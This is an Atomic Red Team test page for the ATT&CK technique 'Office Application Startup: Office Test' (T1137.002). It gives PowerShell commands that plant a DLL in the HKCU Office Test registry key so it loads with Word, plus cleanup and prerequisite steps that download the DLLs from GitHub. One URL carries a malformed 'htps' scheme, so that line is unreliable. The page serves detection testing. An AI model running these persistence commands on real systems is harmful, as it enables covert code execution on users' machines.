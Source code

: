 # T1137.002 - Office Application Startup: Office Test
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/002)
<blockquote>

Adversaries may abuse the Microsoft Office "Office Test" Registry key to obtain persistence on a compromised system. An Office Test Registry location exists that allows a user to specify an arbitrary DLL that will be executed every time an Office application is started. This Registry key is thought to be used by Microsoft to load DLLs for testing and debugging purposes while developing Office applications. This Registry key is not created by default during an Office installation.(Citation: Hexacorn Office Test)(Citation: Palo Alto Office Test Sofacy)

There exist user and global Registry keys for the Office Test feature, such as:

* <code>HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf</code>
* <code>HKEY_LOCAL_MACHINE\Software\Microsoft\Office test\Special\Perf</code>

Adversaries may add this Registry key and specify a malicious DLL that will be executed whenever an Office application, such as Word or Excel, is started.

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office Application Startup Test Persistence (HKCU)](#atomic-test-1---office-application-startup-test-persistence-hkcu)


<br/>

## Atomic Test #1 - Office Application Startup Test Persistence (HKCU)
Office Test Registry location exists that allows a user to specify an arbitrary DLL that will be executed every time an Office
application is started. Key is used for debugging purposes. Not created by default & exist in HKCU & HKLM hives.

**Supported Platforms:** Windows


**auto_generated_guid:** c3e35b58-fe1c-480b-b540-7600fb612563






#### Attack Commands: Run with `powershell`! 


```powershell
$wdApp = New-Object -COMObject "Word.Application"
if(-not $wdApp.path.contains("Program Files (x86)"))  
{
  Write-Host "64-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll" /f       
}
else{
  Write-Host "32-bit Office"
  reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll" /f
}
Stop-Process -Name "WinWord" 
Start-Process "WinWord"
```

#### Cleanup Commands:
```powershell
Stop-Process -Name "notepad","WinWord" -ErrorAction Ignore
Remove-Item "HKCU:\Software\Microsoft\Office test\Special\Perf" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```
##### Description: DLL files must exist on disk at specified location
##### Check Prereq Commands:
```powershell
if ((Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll") -and (Test-Path "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll")) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\T1137.002\bin\" -Force | Out-Null
Invoke-Webrequest -Uri "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x64.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x64.dll"
Invoke-Webrequest -Uri "htps://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.002/bin/officetest_x86.dll" -UseBasicParsing -OutFile "PathToAtomicsFolder\T1137.002\bin\officetest_x86.dll"
```




<br/>
